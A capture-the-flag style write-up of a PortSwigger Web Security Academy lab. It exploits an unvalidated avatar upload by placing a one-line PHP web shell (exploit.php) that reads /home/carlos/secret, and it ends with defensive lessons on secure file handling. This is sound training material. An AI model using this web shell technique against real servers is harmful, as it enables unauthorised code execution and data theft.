

---

# 🔥 Lab Write-Up: Remote Code Execution via Web Shell Upload

## 🧪 Lab Name

**Remote code execution via web shell upload (Apprentice Level)**
PortSwigger Web Security Academy

---

## 🎯 Objective

The goal of this lab is to exploit a vulnerable file upload functionality that does not validate uploaded files. By uploading a malicious PHP web shell, we will execute code on the server and retrieve sensitive data from:

```
/home/carlos/secret
```

---

## 🔐 Credentials Provided

```
Username: wiener  
Password: peter
```

---

## 🧠 Vulnerability Overview

The application allows users to upload files (profile avatars) without proper validation. This leads to:

* ❌ No file type validation
* ❌ No content inspection
* ❌ Executable files stored in web-accessible directory

This results in **Remote Code Execution (RCE)** via uploaded PHP files.

---

## 🧰 Tools Used

* Burp Suite (Proxy, Repeater, HTTP History)
* Web browser
* PHP (for payload creation)

---

## ⚙️ Exploitation Steps

### 1. Login to Application

Log in using the provided credentials:

```
wiener : peter
```

Navigate to the profile section where avatar upload is available.

---

### 2. Observe File Upload Behavior

* Upload any normal image (e.g., `.jpg`)
* The image is stored and displayed on the profile page
* Using Burp Suite, observe the request in:

```
Proxy → HTTP History
```

Filter by:

```
MIME type → Images
```

---

### 3. Identify File Storage Location

From the HTTP history, notice uploaded files are accessible via:

```
/files/avatars/<filename>
```

Send this request to **Burp Repeater** for manipulation.

---

### 4. Create Malicious PHP Web Shell

Create a file named:

```
exploit.php
```

Add the following payload:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

📌 This script reads and prints the contents of the target file.

---

### 5. Upload the Web Shell

* Upload `exploit.php` using the avatar upload feature
* The server accepts it without validation
* File is stored in `/files/avatars/`

---

### 6. Execute the Web Shell

In Burp Repeater, modify the request:

```
GET /files/avatars/exploit.php HTTP/1.1
```

Send the request.

---

## 🎉 Result

The server executes the PHP file and returns the contents of:

```
/home/carlos/secret
```

This confirms successful **Remote Code Execution (RCE)**.

---

## 🏁 Lab Status

✔ Lab Solved

---

## 🚨 Key Security Lessons

* Always validate file extensions server-side
* Restrict executable file uploads
* Store uploads outside web root
* Disable execution in upload directories
* Use allowlist (not blocklist) for file types

---

## 🧾 Conclusion

This lab demonstrates how insecure file upload functionality can lead to full server compromise through web shell execution. Proper validation and secure file handling are critical to prevent such attacks.

---

